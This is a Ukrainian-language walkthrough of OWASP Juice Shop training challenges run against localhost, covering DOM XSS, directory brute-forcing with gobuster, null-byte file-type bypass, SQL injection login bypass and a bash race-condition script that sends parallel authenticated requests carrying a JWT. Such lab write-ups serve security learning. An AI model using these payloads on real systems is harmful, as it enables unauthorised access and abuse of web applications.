# OWASP JuiceShop.md



## Дошка результатів(Score Board)

Дошка результатів була знайдена через роутинг після перегляду коду.





### DOM XSS







Запит для розв'язання завдання:

```
<iframe src="javascript:alert(`xss`)">
```



Запит для розв'язання завдання:

```
<iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe>
```

### Sensative Data exposure



Команда для пошуку:

```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt \
  -u http://localhost:3000/  -t 32 -xl 9903
```



### NUll byte poisoning





Запит для розв'язання завдання:

```
http://localhost:3000/ftp/suspicious_errors.yml%2500.md
```



### SQL Injection



Email для розв'язання завдання:

```
test@test.com' OR 1=1--
```



### Race condition



Перехоплений запит, який був відкинутий, для розвідки значення `id`.



Написаний скрипт для експлойту race condition:

```
#!/bin/bash

TOKEN="eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJkYXRhIjp7ImlkIjoyNCwidXNlcm5hbWUiOiIiLCJlbWFpbCI6InRlc3RAdGVzdC5jb20iLCJwYXNzd29yZCI6IjVhMTA1ZThiOWQ0MGUxMzI5NzgwZDYyZWEyMjY1ZDhhIiwicm9sZSI6ImN1c3RvbWVyIiwiZGVsdXhlVG9rZW4iOiIiLCJsYXN0TG9naW5JcCI6IjAuMC4wLjAiLCJwcm9maWxlSW1hZ2UiOiIvYXNzZXRzL3B1YmxpYy9pbWFnZXMvdXBsb2Fkcy9kZWZhdWx0LnN2ZyIsInRvdHBTZWNyZXQiOiIiLCJpc0FjdGl2ZSI6dHJ1ZSwiY3JlYXRlZEF0IjoiMjAyNi0wNy0yMyAxNDoxNjoyNS4zNjkgKzAwOjAwIiwidXBkYXRlZEF0IjoiMjAyNi0wNy0yMyAxNDoxNjoyNS4zNjkgKzAwOjAwIiwiZGVsZXRlZEF0IjpudWxsfSwiYmlkIjo2LCJpYXQiOjE3ODQ4MTYxOTN9.fCl-zuMTTJnlnJnvjGXp13cQmwC2BFpuTJcyz__rqNwJmQivGEsFQCIsZBRIVhL9G5Zjw_yG1t1qQ2fsehIcIFTEJ9ggY9ZM_sqeQtXyQgzRRvp-fJkN_0O-4ZUVFjmc0w_5f8TtvTsB6m78PTtzUhzpuR1anGi7a07n-r_3Nwg"

REVIEW_ID="vdgudqyZMFcvcympT"

for i in $(seq 1 20); do
  curl -s -o /dev/null -w "req#$i -> %{http_code}\n" \
    -X POST "http://localhost:3000/rest/products/reviews" \
    -H "Content-Type: application/json" \
    -H "Authorization: Bearer $TOKEN" \
    -H "Cookie: token=$TOKEN" \
    -d "{\"id\":\"$REVIEW_ID\"}" &
done

wait
echo "Done
```

Запуск скрипта.



Перевірка кількості лайків.



